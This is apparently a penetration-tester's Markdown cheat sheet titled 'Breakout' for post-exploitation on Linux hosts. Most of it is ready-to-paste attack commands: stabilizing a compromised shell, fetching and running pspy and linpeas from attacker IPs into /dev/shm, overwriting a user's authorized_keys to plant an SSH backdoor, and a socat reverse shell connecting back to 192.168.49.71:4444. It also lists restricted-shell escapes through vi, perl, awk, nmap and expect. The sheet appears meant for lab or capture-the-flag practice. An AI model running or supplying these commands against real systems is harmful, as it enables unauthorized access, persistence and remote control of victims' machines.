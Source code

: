 # Breakout

### Initial Access and Shell Stabilization  

Don't forget that you can always set the terminal history to be infinite, and the keystroke scroll back. 

Grab a valid tty.

What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD

Want a color terminal to easily tell apart file permissions? Directories? Files?

Fastest way to list out the files in a directory, show size, show permissions, human readable.

Make this shell stable.

```bash 
# Python method to spawn a bash shell   
python -c 'import pty; pty.spawn("/bin/bash")'  
python3 -c 'import pty; pty.spawn("/bin/bash")' 

# Set environment variables 
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp:/snap/bin  
export TERM=xterm-256color  

# Alias for enhanced listing
alias ll='ls -lsaht --color=auto'   

# Background the current process with Ctrl + Z  
# Then prepare the terminal 
stty raw -echo; fg; reset
(stty size)
stty columns 200 rows 200
stty columns 150 rows 150
```

### File Transfer and Execution 

```bash 
# Download and execute tools
wget http://192.168.45.178:8000/pspy64 -O /dev/shm/pspy; chmod +x /dev/shm/pspy 
wget http://192.168.45.178:8000/linpeas.sh -O /dev/shm/linpeas.sh; chmod +x /dev/shm/linpeas.sh 
/dev/shm/pspy   

# Multiple sources and tools
wget http://10.10.14.8:8000/pspy64 -O /dev/shm/pspy; chmod +x /dev/shm/pspy 
wget http://10.10.14.8:8000/linpeas.sh -O /dev/shm/linpeas.sh; chmod +x /dev/shm/linpeas.sh 
/dev/shm/linpeas.sh 
``` 

### SSH Key Manipulation

```bash 
# Replace authorized_keys for user  
wget http://192.168.45.178:8000/authorized_keys -O /home/kathleen/.ssh/authorized_keys  
``` 

### Reverse Shell Setup 

```bash 
# Check if socat is available   
which socat 

# Setup reverse shell listener on Kali  
socat file:`tty`,raw,echo=0 tcp-listen:4444 

# Connect back from the victim machine  
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.49.71:4444  
``` 

### Restricted Shell Bypass 

```bash 
# Vim method to escape restricted bash (rbash)  
vi :set shell=/bin/sh   
:shell  

# SSH method to bypass restricted shell 
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
``` 

### Alternative Shells  

```bash 
# Check and use Python if available 
python -c 'import pty; pty.spawn("/bin/bash")'  
python -c 'import pty; pty.spawn("/bin/sh")'

# Is perl present?
perl -e 'exec "/bin/bash";' 
perl -e 'exec "/bin/sh";'   

# Is AWK present?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'  

# Is ed present?
ed !sh  

# Is IRB present?
exec "/bin/sh"  

# Nmap ?
nmap --interactive  
nmap> !sh   

# expect ?
expect -v   
cat > /tmp/shell.sh <<EOF   
#!/usr/bin/expect   
spawn bash  
interact
EOF 
chmod u+x /tmp/shell.sh 
/tmp/shell.sh   
```